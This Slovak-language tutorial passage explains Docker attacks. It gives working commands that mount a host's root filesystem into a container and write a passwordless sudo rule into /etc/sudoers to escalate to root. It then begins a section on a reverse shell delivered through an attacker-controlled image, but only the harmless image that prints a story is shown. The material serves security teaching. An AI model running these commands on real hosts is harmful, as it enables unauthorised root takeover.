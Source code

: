 ## Privilege escalation pomocou Dockeru

Pokiaľ sa útočníkovi podarilo dostať z kontajneru a nezískal root používateľa, ale používateľa, ktorý sa nachádza v skupine docker môže využiť docker na zvýšenie svojich práv. 

```bash

docker run --rm -it -v "/:/tmp" alpine /bin/sh

echo "john ALL=(ALL) NOPASSWD: ALL" >> /tmp/etc/sudoers
```

Pomocou dockeru si spustíme nový kontajner. Celý file systém hosta pripojíme do priečinku /tmp v kontajneri. Využívame alpine linux image, pretože je veľmi malý (5MB) a teda nepotrebujeme stiahnúť veľký image z registry. Vstúpime do kontajneru kde máme root práva a do **/tmp/etc/sudoers** priáme pre nášho používateľa sudo práva bez hesla. Náš dočasný kontajner možeme opustiť a na hostovi máme root práva.

## Reverse shell cez kontrolovaný image

Útočník sa môže dostať do kontajneru aj pomocou imagu, ktorý kontroluje. 

V tejto ukážke má útočník kontrolu nad docker imagom "alice", v tomto prípade tento image obsahuje iba rozprávku **ALICE'S ADVENTURES IN WONDERLAND** a jeho jedinou úlohou je vypísať túto rozprávku na stdout pri spustení.

**alice Dockerfile**
```bash
FROM python:3

WORKDIR /tmp

COPY . .

RUN chmod +x /tmp/entry.sh

CMD [ "sh", "/tmp/entry.sh" ]
```

**entry.sh**
```bash
#!/bin/bash

cat /tmp/alice.txt
```

Tento image vytvoríme pomocou príkazu, samozrejme následne by sme ho pushli a publikovali v nejakom registry, kde by bol dostupný pre všettkých používateľov. 

```bash
docker build --rm -f "evilimage/aliceimage/Dockerfile" -t alice:latest "evilimage/aliceimage"
```

Pomocout tohto imagu môžme vytvoriť, kontajner, ktorý nám vypíše túto rozprávku.
```bash
docker run --rm -it alice:latest
```
